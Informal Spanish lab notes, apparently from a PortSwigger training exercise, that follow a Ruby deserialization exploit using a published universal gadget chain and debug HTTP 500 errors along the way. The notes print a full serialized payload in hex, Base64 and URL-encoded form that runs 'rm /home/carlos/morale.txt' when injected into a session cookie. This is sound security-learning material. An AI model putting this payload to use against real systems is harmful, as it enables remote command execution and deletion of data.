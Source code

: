 ![[Pasted image 20221018110749.png]]

criterio de busqueda: Universal Deserialisation Gadget for Ruby 2.x-3.x` by `vakzz` on `devcraft.io`

![[Pasted image 20221018110936.png]]

https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html

https://www.elttam.com/blog/ruby-deserialization

de la ultima pagina tome el payload:

![[Pasted image 20230621180854.png]]

lo copie en un directorio y de ahi se ejecuta:

![[Pasted image 20230621181021.png]]

![[Pasted image 20230621181045.png]]

Payload (hex):
0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e063a11406c6f616465645f66726f6d4922207c726d202f686f6d652f6361726c6f732f6d6f72616c652e747874063a0645546f3b08003a1140646576656c6f706d656e7446

Payload (Base64 encoded):
BAhVOhVHZW06OlJlcXVpcmVtZW50WwZvOhhHZW06OkRlcGVuZGVuY3lMaXN0
BzoLQHNwZWNzWwdvOh5HZW06OlNvdXJjZTo6U3BlY2lmaWNGaWxlBjoKQHNw
ZWNvOhtHZW06OlN0dWJTcGVjaWZpY2F0aW9uBjoRQGxvYWRlZF9mcm9tSSIg
fHJtIC9ob21lL2Nhcmxvcy9tb3JhbGUudHh0BjoGRVRvOwgAOhFAZGV2ZWxv
cG1lbnRG

el ultimo payload lo paso al decoder de burp y lo encodeo como URL:

![[Pasted image 20230621181325.png]]

%42%41%68%56%4f%68%56%48%5a%57%30%36%4f%6c%4a%6c%63%58%56%70%63%6d%56%74%5a%57%35%30%57%77%5a%76%4f%68%68%48%5a%57%30%36%4f%6b%52%6c%63%47%56%75%5a%47%56%75%59%33%6c%4d%61%58%4e%30%0a%42%7a%6f%4c%51%48%4e%77%5a%57%4e%7a%57%77%64%76%4f%68%35%48%5a%57%30%36%4f%6c%4e%76%64%58%4a%6a%5a%54%6f%36%55%33%42%6c%59%32%6c%6d%61%57%4e%47%61%57%78%6c%42%6a%6f%4b%51%48%4e%77%0a%5a%57%4e%76%4f%68%74%48%5a%57%30%36%4f%6c%4e%30%64%57%4a%54%63%47%56%6a%61%57%5a%70%59%32%46%30%61%57%39%75%42%6a%6f%52%51%47%78%76%59%57%52%6c%5a%46%39%6d%63%6d%39%74%53%53%49%67%0a%66%48%4a%74%49%43%39%6f%62%32%31%6c%4c%32%4e%68%63%6d%78%76%63%79%39%74%62%33%4a%68%62%47%55%75%64%48%68%30%42%6a%6f%47%52%56%52%76%4f%77%67%41%4f%68%46%41%5a%47%56%32%5a%57%78%76%0a%63%47%31%6c%62%6e%52%47

me voy al lab y me logeo con las credenciales de wiener, pongo el intercept en off durante todo el proceso:

![[Pasted image 20230621181709.png]]

luego de logearme doy click en el boton Home y busco esa traza para enviarla al repeater:

![[Pasted image 20230621181819.png]]

![[Pasted image 20230621181845.png]]

![[Pasted image 20230621181906.png]]

en la cookie session sustituyo el payload encodeado en formato url y le doy enviar:

![[Pasted image 20230621182359.png]]

sin embargo no entiendo porque obtengo error 500:

![[Pasted image 20230621182429.png]]

probe tambien poniendo el payload en una sola linea asi como otros videos y es el mismo procedimiento pero siempre obtengo el error 500. 

Probando el payload de esta pagina: https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html

![[Pasted image 20230625201226.png]]

al intentarlo ejecutar:

![[Pasted image 20230625201402.png]]

leyendo la solucion oficial encontre esto:

![[Pasted image 20230625204400.png]]

verificando el payload ya tiene esta linea:

![[Pasted image 20230625204516.png]]

mandando el payload sin encodear el error 500 es por esto:

![[Pasted image 20230625204819.png]]

hay una entrada en el blog de portswigger con ese problema: https://forum.portswigger.net/thread/no-such-file-or-directory-error-ruby-deserialization-2cc41445

![[Pasted image 20230625205456.png]]

parece que el rollo es el compilador de ruby, el procedimiento aparentemente es el correcto:

![[Pasted image 20230625205653.png]]

al final del mismo post se supone que es el codigo del payload y que este funciona:

![[Pasted image 20230625210649.png]]

que es este: https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html





